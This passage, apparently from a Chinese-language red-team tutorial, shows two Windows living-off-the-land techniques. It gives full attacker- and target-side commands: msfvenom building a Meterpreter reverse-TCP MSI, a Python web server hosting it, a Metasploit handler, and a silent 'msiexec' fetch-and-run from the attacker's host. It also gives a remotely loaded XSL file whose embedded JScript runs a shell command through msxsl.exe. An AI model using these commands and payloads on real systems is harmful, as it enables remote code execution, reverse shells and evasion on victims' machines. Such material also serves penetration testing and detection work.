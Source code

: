 msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```

目标端
```bash
msiexec /q /i http://192.168.1.109/1.msi
```

**msxsl.exe**

msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令。

下载地址 : https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML 及 XSL 文件，可以远程加载
```
msxsl http://192.168.1.1/1/demo.xml http://192.168.1.1/1/exec.xsl
```

demo.xml
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl
```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```
